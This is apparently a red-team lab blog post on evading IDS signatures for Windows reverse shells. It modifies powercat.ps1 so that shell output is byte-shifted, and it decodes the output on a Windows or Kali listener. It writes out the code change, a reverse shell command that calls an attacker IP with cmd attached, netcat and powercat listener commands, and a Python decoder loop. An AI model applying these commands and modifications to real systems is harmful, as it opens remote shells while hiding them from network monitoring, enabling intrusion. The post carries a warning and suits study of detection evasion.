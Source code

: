 ```yaml
---
layout: post
title: "bypassing ids signatures with simple reverse shells"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /defense-evasion/
---
```


# Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems (IDS) have signatures that can catch simple reverse shells going across the network.&#x20;

The thing that will get you flagged usually is the classic cmd prompt banner:

```
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation and this quick lab demonstrates just that.

{% hint style="danger" %}
**Warning**\
This technique is not meant to be used in real life red team operations!
{% endhint %}

## Environment and Setup

* Victim's Windows system capable of running powershell scripts
* Victim's system runs Powercat - netcat's Powershell implementation
* Attacker's Windows machine with a powercat listener
* Attacker's Linux machine with a netcat listener

## Execution - Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line (576 from the below graphic):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](<../../.gitbook/assets/Annotation 2019-05-18 121935 (1).png>)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](<../../.gitbook/assets/Annotation 2019-05-18 123445.png>)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](<../../.gitbook/assets/Annotation 2019-05-18 124925.png>)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](<../../.gitbook/assets/Annotation 2019-05-18 124837.png>)

If we inspect the traffic, we confirm that the traffic is encoded:

![](<../../.gitbook/assets/Annotation 2019-05-18 130428.png>)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell (my kali was giving me a hard time trying to install powershell), we need to hack together a filthy python loop that will do the decoding for us first:

{% code title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code title="attacker@kali" %}
```
nc -lvvp 443 | tee myfile
```
{% endcode %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code title="attacker@kali" %}
```
./decoder.py
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-18 132903.png>)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)
@spotheplanet
